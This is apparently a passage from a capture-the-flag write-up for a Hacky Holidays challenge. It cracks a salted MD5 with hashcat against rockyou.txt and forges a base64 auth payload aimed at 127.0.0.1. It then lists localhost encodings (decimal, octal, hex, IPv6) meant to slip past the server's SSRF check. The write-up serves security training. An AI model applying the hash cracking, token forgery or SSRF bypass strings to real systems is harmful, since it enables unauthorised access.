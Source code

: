 `hash` looks like as md5sum. If this is real md5 hash, how it can be generated?

1. `md5sum(target)`
2. `md5sum(target + salt)`
3. `md5sum(salt + target)`

The first statement is wrong, let's check other. We know the encrypted value - `203.0.113.33`, we know the hash -  `5f2940d65ca4140cc18d0878bc398955`, so we need to find a way how to guess `salt`!? For this task we can use, the super fast tool for password recovery - `hashcat`. We will run it with the following parameters:

- `-a 0` - *dictionary attack*, trying all the words in a list
- `-m 10` - *hash mode*, `salt + password`
-  `5f2940d65ca4140cc18d0878bc398955:203.0.113.33` - known hash and password
- `rockyou.txt` - the dictionary file

```bash
$ hashcat -O -m 10 -a 0 5f2940d65ca4140cc18d0878bc398955:203.0.113.33 rockyou.txt 
```

A few seconds after the start, `hashcat` will find the `salt` - `mrgrinch463`.

Let's use `mrgrinch463` to generate `auth` token for the localhost (127.0.0.1) `target` and launch the attack against Grinch's host:

- target: `127.0.0.1`
- salt: `mrgrinch463`
- string for encryption: `mrgrinch463127.0.0.1`
- md5sum for `mrgrinch463127.0.0.1`: `3e3f8df1658372edf0214e202acb460b`
- payload: `{"target":"127.0.0.1","hash":"3e3f8df1658372edf0214e202acb460b"}`
- payload encoded in base64: `eyJ0YXJnZXQiOiIxMjcuMC4wLjEiLCJoYXNoIjoiM2UzZjhkZjE2NTgzNzJlZGYwMjE0ZTIwMmFjYjQ2MGIifQ==`
- url: `https://hackyholidays.h1ctf.com/attack-box/launch?payload=eyJ0YXJnZXQiOiIxMjcuMC4wLjEiLCJoYXNoIjoiM2UzZjhkZjE2NTgzNzJlZGYwMjE0ZTIwMmFjYjQ2MGIifQ%3d%3d`

Hmm, but when we send the request, the log of the attack is:

```json
[
  {"id":"36389","content":"Setting Target Information","goto":false},
  {"id":"36392","content":"Getting Host Information for: 127.0.0.1","goto":false},
  {"id":"36393","content":"Local target detected, aborting attack","goto":false}
]
```

It seems, that the server has some SSRF protection mechanism. Well, IP address can be represented in the dozens of formats, let's try to bypass the server protection using one of them:

- dot notation: `127.0.0.1`
- localhost: `localhost`
- IPv6: `[::1]`
- drop the zeros: `127.0.1`
- drop the zeros: `127.1`
- decimal: `2130706433`
- octal: `017700000001`
- hex: `7f000001`
- hex: `0x7f.0.0.1`
